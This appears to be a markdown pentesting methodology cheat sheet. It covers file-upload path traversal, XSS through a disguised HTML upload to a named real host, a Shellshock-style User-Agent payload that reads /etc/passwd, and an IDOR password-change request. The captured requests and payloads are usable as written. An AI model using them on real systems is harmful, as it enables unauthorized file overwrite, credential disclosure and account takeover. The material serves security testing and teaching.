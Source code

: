 # Methodolgy: FILE UPLOAD

**> Subject: Path Traversal via File Upload**
#### 1. Capture the file upload request
#### 2. In the filename parameter, change filename to "../../filename" and forward the request.
#### 3. See, if the file is getting stored outside the expected directory, if 'yes', it is an issue.
#### 4. Now, attempt to overwrite a system file and check if it is possible to overwrite the system file.

</br>

**> Subject: File Upload XSS in image uploading of App**
#### 1. Go to App settings and select a html file with .jpg extension.
#### 2. Capture upload request using Burp and change the file extension from .jpg to .html, additionaly change the content type to text/html and it will upload the file.
#### 3. Open the link of upload image in new file and XSS will pop up.

```
POST /inventory/app_icon/upload/ HTTP/1.0
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-CSRFToken: YZ8hbuu1vB9p5s1ni2vPZ5kMrhMqeDo5
X-Requested-With: XMLHttpRequest
Referer: https://app.mopub.com/inventory/app/97142808ce5d4ace895480a3ffe7d631/
Content-Length: 389
Content-Type: multipart/form-data; boundary=---------------------------1714461176134095862036612614
Cookie: [Cookie values]
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
-----------------------------1714461176134095862036612614
Content-Disposition: form-data; name="image_upload"; filename="xssfileuploadcopy.html"
Content-Type: text/html
HTML content
-----------------------------1714461176134095862036612614--
```


# Methodolgy: LFI

**> Subject: Transversal by User Agent**
#### 1. Directory Transversal look for <kbd>GET /cgi-bin/status</kbd> 
#### 2. Set the User-Agent to
```
User-Agent: {:;}; echo $(</etc/passwd)
```


# Methodolgy: IDOR

**> Subject: IDOR in the password change functionality**
#### 1. Try to change password and capture raw request with Burp Suite

```
POST /api/change_password HTTP/1.1
HOST: redacted.com
Cookie: ci_session= kefrsfdsdfmsdfldgh?h
Accept: application/json

{
    "account":"{username}",
    "password":"{password}"
}
```
#### 2. Input any valid user account and input any password


